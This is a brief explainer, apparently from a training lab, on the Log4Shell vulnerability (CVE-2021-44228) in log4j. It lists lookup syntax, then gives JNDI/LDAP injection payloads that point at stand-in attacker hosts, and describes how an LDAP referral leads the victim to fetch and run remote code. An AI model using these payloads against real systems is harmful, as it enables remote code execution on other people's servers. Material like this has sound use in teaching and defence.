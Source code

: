 ## Log4j 

The log4j package adds extra logic to logs by "parsing" entries, ultimately to enrich the data -- but may additionally take actions and even evaluate code based off the entry data. This is the gist of CVE-2021-44228. Other syntax might be in fact executed just as it is entered into log files. 

Some examples of this syntax are:

${sys:os.name}
${sys:user.name}
${log4j:configParentLocation}
${ENV:PATH}
${ENV:HOSTNAME}
${java:version}
You may already know the general payload to abuse this log4j vulnerability. The format of the usual syntax that takes advantage of this looks like so:

${jndi:ldap://ATTACKERCONTROLLEDHOST}

This syntax indicates that the log4j will invoke functionality from "JNDI", or the "Java Naming and Directory Interface." Ultimately, this can be used to access external resources, or "references," which is what is weaponized in this attack. 

"LDAP Referral Server". This will be used to essentially redirect the initial request of the victim to another location, where you can host a secondary payload that will ultimately run code on the target. This breaks down like so:

${jndi:ldap://attackerserver:1389/Resource} -> reaches out to our LDAP Referral Server
LDAP Referral Server springboards the request to a secondary http://attackerserver/resource
The victim retrieves and executes the code present in http://attackerserver/resource



